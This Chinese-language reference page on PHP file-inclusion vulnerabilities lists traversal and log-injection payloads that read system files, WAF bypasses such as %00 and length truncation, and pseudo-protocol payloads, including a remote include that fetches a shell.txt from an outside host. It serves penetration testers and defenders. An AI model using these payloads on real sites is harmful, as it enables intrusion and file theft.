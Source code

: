 文件包含
========================================

基础
----------------------------------------
常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once


绕过技巧
----------------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``allow_url_fopen`` 和 ``allow_url_include`` 主要是针对 ``http`` ``ftp`` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
